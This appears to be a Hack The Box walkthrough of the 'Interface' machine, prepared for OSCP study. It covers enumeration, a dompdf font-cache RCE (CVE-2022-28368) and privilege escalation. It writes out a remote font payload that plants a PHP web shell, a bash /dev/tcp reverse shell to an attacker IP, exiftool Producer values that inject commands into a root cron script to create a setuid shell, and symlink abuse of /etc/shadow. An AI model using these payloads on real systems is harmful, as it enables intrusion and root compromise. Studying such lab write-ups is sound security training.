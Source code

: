 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)

### 💡 Summary

- Initial foothold via **Dompdf** file-write vulnerability (CVE-2022-28368) 📝
- RCE achieved through a poisoned font file + PHP shell 💥
- Privilege escalation through **arithmetic expression injection** in a Bash cleanup script 👑
- Alternative root path using symbolic links to overwrite `/etc/shadow` (patched) 🔒

---

## 🕵️ Recon

### 🔎 Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.200
nmap -p 22,80 -sCV 10.10.11.200
```
**Findings:**
- Open ports: `22` (SSH) and `80` (HTTP)
- Ubuntu 18.04
- Web server: nginx + Next.js (frontend React)

---

## 🌐 Web Enumeration

### Interface.htb
- Only shows "Site under maintenance" 🛠️
- Headers include: `X-Powered-By: Next.js`
- CSP reveals subdomain: `prd.m.rendering-api.interface.htb`

### Subdomain Discovery
```bash
ffuf -u http://10.10.11.200 -H "Host: FUZZ.interface.htb" -w subdomains-top1million-5000.txt --fs 6359
```

Add to `/etc/hosts`:
```
10.10.11.200 interface.htb prd.m.rendering-api.interface.htb
```

### prd.m.rendering-api.interface.htb
- Returns `File not found.` on `/`
- Directory brute force with feroxbuster reveals `/vendor` with `403`

### Deeper Enumeration
```bash
feroxbuster -u http://prd.m.rendering-api.interface.htb/vendor/
```
Reveals:
- `/vendor/dompdf`
- `/vendor/composer`

Suggests this is a **PHP app** using **dompdf** 🧾

---

## 🔍 API Discovery

### Brute Forcing `/api` endpoint
```bash
ffuf -u http://prd.m.rendering-api.interface.htb/FUZZ -w raft-medium-words.txt -mc all -fs 0
```
Finds `/api`, which returns:
```json
{"status":"404","status_text":"route not defined"}
```

Then brute force subroutes with POST:
```bash
ffuf -X POST -u http://prd.m.rendering-api.interface.htb/api/FUZZ -w raft-medium-words.txt -mc all -fs 50
```
Finds: `/api/html2pdf`

### PDF Generator (Dompdf)
- Vulnerable to CVE-2022-28368
- `html` parameter used to render user-supplied HTML to PDF

---

## 🎯 Initial Foothold via RCE

### Exploit Strategy:
1. Use **CSS `@font-face`** to reference a remote `.php` file pretending to be a font file
2. Inject PHP code inside font file comments
3. Trigger dompdf to cache the file on the server
4. Access the cached file directly to trigger the PHP shell

### Key Payloads
```php
@font-face {
  font-family:'exploitfont';
  src:url('http://<attacker-ip>/exploit_font.php');
}
```
```bash
echo -n "http://<attacker-ip>/exploit_font.php" | md5sum
# Use hash to build path:
/vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_<hash>.php
```
Execute commands:
```bash
curl -s --data-urlencode 'cmd=id' http://target/fonts/exploitfont_normal_<hash>.php
```
Reverse shell:
```bash
cmd=bash -c "bash -i >& /dev/tcp/<attacker-ip>/443 0>&1"
```

Shell acquired as: `www-data`

---

## 🧱 Privilege Escalation - Arithmetic Expression Injection

### Enumeration with pspy
Reveals cron job:
```bash
/usr/local/sbin/cleancache.sh (every 2 min)
```
Script content:
```bash
meta_producer=$(exiftool -Producer "$file")
if [[ "$meta_producer" -eq "dompdf" ]]; then
  rm "$file"
fi
```

### Exploiting `-eq` with malicious Producer:
```bash
exiftool -Producer='x[$(touch${IFS}/tmp/rootshell)]' /tmp/testfile
```
Root-created `/tmp/rootshell` appears after 2 mins ✅

### Full Root Shell
```bash
exiftool -Producer='x[$(cp${IFS}/bin/bash${IFS}/tmp/bashroot;chmod${IFS}4777${IFS}/tmp/bashroot)]' /tmp/triggerfile
```
```bash
/tmp/bashroot -p
```

You are now root! 🎉

---

## 🔓 Beyond Root - Symbolic Link Abuse (Patched)

### Original cron:
```bash
cp /root/font_cache/dompdf_font_family_cache.php /var/www/.../fonts/dompdf_font_family_cache.php
chown www-data ...
```
### Exploit:
- Replace `dompdf_font_family_cache.php` with symlink to `/etc/shadow`
- Wait for cron to overwrite and change ownership
- Insert malicious root hash
- `su -` as root using new password 🔑

**Patched version** copies to safe path and chowns first, preventing symlink attacks 🛡️

---

## 📚 Learnings
- dompdf vulnerabilities and font injection are a valid RCE vector
- Bash's `[[ var -eq string ]]` quirks can be weaponized
- Cron jobs are powerful escalation opportunities when scripts are sloppy
- Symbolic links are dangerous when blindly used with root privileges

---

If you liked this write-up, check out more from [0xdf](https://0xdf.gitlab.io)! 🧠🖥️🍩

